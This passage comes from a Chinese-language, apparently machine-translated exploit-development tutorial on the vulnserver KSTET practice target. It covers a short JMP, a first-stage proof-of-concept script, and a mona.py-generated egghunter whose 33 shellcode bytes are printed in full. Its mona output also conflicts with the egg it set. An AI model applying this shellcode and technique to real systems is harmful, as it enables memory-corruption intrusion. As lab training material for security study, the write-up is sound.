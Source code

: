 JMP 回来了

**这里的一个提示是，从 OllyDbg 中，我们可以简单地二进制复制我们编写的操作码，以便在我们的漏洞利用脚本中使用它们。*

让我们用第一阶段外壳代码更新我们的 PoC 脚本。

![](img/5d49d2c0472800c77bd3e23d0845fdc8.png)

来源:[first _ stage _ kstet . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/KSTET%20-%20EIP%20Overwrite/first_stage_kstet.py)

## 第二阶段外壳代码(Egghunter)

对于短 JMP，我们现在降落在更大的空间，我们有大约 70 字节的自由空间。让我们为我们的第二阶段外壳代码添加 Egghunter。

基本上 Egghunter 要做的是，只要我们把我们选择的 egg(例如，`W00T`)放到堆栈上，Egghunter 就会迭代内存空间来寻找我们的 egg 并跳转到那里。这是非常性感的技巧，也是从受限空间逃到更大空间的简单方法。让我们使用 mona.py 的`egg`命令创建 Egghunter 外壳代码。

```
**### Mona.py Generating Egghunter**
!py mona egg -t T00W             **# "-t" for your choice of the egg**[+] Egg set to b0ss
[+] Generating traditional 32bit egghunter code
[+] Preparing output file 'egghunter.txt'
    - (Re)setting logfile egghunter.txt
**[+] Egghunter  (33 bytes): 
"\x90\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a"
"\x74\xef\xb8\x54\x30\x30\x57\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff"
"\xe7"**
```
